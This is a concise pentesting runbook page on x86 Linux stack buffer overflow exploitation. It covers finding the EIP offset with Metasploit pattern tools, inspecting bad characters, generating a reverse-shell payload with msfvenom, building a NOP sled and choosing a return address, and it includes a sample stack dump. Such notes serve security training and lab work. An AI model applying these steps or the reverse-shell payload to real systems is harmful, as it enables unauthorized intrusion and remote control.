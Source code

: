 # buffer overflow x86 linux

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate exact offset using the value of the EIP.
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Start inspecting bad characters "\x00\x01\x02...\xff"
- Use the following command to inspect the stack.

```shell
x/1000xb $rsp
```

- Iterate the process. E.g. remove "\x00\x09", update input, and rerun program.

## Step 3: Generate shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`.
```shell
msfvenom -p "linux/x86/shell_reverse_tcp" LHOST=127.0.0.1 LPORT=4444 --format "c" --bad-chars "\x00\x09\x0a\x20"
```

- Update program input. Add `\x90` chars are NOP instructions.

- Example stack is given below.

```shell
...
0xffffd6b4:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6bc:     0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0xffffd6c4:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd6cc:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
...
0xffffd72c:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd734:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffd73c:     0xbf    0x0c    0xf4    0xbb    0x7c    0xd9    0xcb    0xd9
0xffffd744:     0x74    0x24    0xf4    0x5a    0x31    0xc9    0xb1    0x12
...
```

## Step 4: Identify return address

- Get a memory address where **only** NOPs are located to tell the EIP to jump to it.
- This memory address must **not** contain any of the bad characters we found earlier.
- Pass the address to the input **backwards** in case of little Endian

Finally, update the EIP overwrite with the memory address found above.

## Python
- A Python script for buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-linux.py).
